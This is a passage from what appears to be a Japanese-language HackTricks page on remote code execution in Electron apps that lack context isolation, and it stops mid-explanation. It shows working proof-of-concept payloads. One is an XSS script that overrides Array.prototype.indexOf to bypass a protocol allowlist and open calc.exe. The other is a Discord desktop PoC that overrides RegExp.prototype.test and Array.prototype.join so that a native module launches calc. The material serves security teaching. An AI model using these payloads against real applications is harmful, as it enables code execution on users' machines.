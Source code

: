 # Electron contextIsolation RCE via preload code

{{#include ../../../banners/hacktricks-training.md}}

## Example 1

Example from [https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=30](https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=30)

このコードはデフォルトのブラウザでhttp(s)リンクを開きます：

![](<../../../images/image (768).png>)

`file:///C:/Windows/systemd32/calc.exe`のようなものを使用してcalcを実行することができますが、`SAFE_PROTOCOLS.indexOf`がそれを防いでいます。

したがって、攻撃者はXSSまたは任意のページナビゲーションを介してこのJSコードを注入することができます：
```html
<script>
Array.prototype.indexOf = function () {
return 1337
}
</script>
```
`SAFE_PROTOCOLS.indexOf`を呼び出すと常に1337が返されるため、攻撃者は保護を回避し、calcを実行できます。最終的なエクスプロイト:
```html
<script>
Array.prototype.indexOf = function () {
return 1337
}
</script>
<a href="file:///C:/Windows/systemd32/calc.exe">CLICK</a>
```
オリジナルのスライドを確認して、許可を求めるプロンプトなしでプログラムを実行する他の方法を探してください。

どうやら、コードをロードして実行する別の方法は、`file://127.0.0.1/electron/rce.jar`のようなものにアクセスすることです。

## 例 2: Discord アプリ RCE

[https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1](https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1)からの例

プリロードスクリプトを確認したところ、Discordは、許可されたモジュールのいくつかを`DiscordNative.nativeModules.requireModule('MODULE-NAME')`を介してウェブページに呼び出すことを可能にする関数を公開しています。\
ここでは、_child_process_モジュールのようなRCEに直接使用できるモジュールを使用することはできませんでしたが、**JavaScriptの組み込みメソッドをオーバーライドすることによってRCEを達成できるコードを見つけました**。公開されたモジュールの実行に干渉します。

以下はPoCです。**`RegExp.prototype.test`と`Array.prototype.join`をオーバーライドしながら、devToolsから"_discord_utils_"というモジュールで定義された`getGPUDriverVersions`関数を呼び出すと、**calc**アプリケーションが**ポップアップすることを確認できました。**
```javascript
RegExp.prototype.test = function () {
return false
}
Array.prototype.join = function () {
return "calc"
}
DiscordNative.nativeModules
.requireModule("discord_utils")
.getGPUDriverVersions()
```
`getGPUDriverVersions` 関数は、次のように "_execa_" ライブラリを使用してプログラムを実行しようとします:
```javascript
module.exports.getGPUDriverVersions = async () => {
if (process.platform !== "win32") {
return {}
}

const result = {}
const nvidiaSmiPath = `${process.env["ProgramW6432"]}/NVIDIA Corporation/NVSMI/nvidia-smi.exe`

try {
result.nvidia = parseNvidiaSmiOutput(await execa(nvidiaSmiPath, []))
} catch (e) {
result.nvidia = { error: e.toString() }
}

return result
}
```
通常、_execa_は`nvidiaSmiPath`変数に指定された"_nvidia-smi.exe_"を実行しようとしますが、オーバーライドされた`RegExp.prototype.test`と`Array.prototype.join`のために、**引数は\_execa**\_**の内部処理で"**_**calc**_**"に置き換えられます**。

具体的には、引数は以下の2つの部分を変更することで置き換えられます。
